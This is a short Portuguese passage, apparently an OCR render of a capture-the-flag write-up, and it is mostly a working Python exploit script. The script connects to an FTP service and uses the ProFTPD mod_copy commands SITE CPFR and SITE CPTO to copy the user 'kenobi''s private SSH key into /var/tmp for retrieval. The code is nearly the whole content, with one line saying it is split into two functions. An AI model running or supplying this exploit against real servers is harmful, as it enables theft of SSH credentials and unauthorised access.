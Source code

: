 Aqui está o código já criado:

```python
import argparse
import socket
import sys


def exploit(target, port):
    print("[*] Exploiting...")

    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client.connect((target, port))

    banner = client.recv(1024).decode()

    print(banner)

    client.send(b"SITE CPFR /home/kenobi/.ssh/id_rsa\r\n")
    ans = client.recv(1024).decode()

    print(ans)

    client.send(b"SITE CPTO /var/tmp/id_rsa\r\n")
    ans = client.recv(1024).decode()

    print(ans)

    print("[+] Success!")


def main():

    parser = argparse.ArgumentParser()
    parser.add_argument("-t", "--target", help="IP target")
    parser.add_argument("-p", "--port", help="Port target")

    args = parser.parse_args()

    if not args.target:
        print("[ERROR] Specify the target")
        return

    else:
        if args.port:
            target = args.target
            port = args.port

            exploit(target, port)

        else:
            target = args.target
            port = 21
            exploit(target, port)


if __name__ == "__main__":
    main()
```
Dividimos esse exploit em duas funções: a `main` e a `exploit`
